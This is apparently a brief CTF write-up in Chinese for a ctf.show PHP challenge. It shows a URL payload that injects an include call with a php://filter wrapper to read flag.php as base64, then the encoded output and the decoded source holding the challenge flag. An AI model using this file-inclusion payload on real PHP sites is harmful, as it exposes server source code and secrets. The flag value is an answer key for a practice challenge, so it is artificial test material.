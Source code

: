 还是上述方法

```php
http://39b0158b-cc0b-4dc2-860a-891936d43861.challenge.ctf.show/?c=include$_GET[url]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
```

<figure><img src="../.gitbook/assets/image 21.png" alt=""><figcaption></figcaption></figure>

```php
PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0wNCAwMDo0OToxOQ0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMDQgMDM6Mzc6MTENCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KJGZsYWc9ImN0ZnNob3d7NzVkYWIyMTMtYjgwOS00NmJjLWFlMWQtOGQ0YmZkZmZkZDlkfSI7
```

base64解码得

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:49:19
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 03:37:11
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

$flag="ctfshow{75dab213-b809-46bc-ae1d-8d4bfdffdd9d}";
```
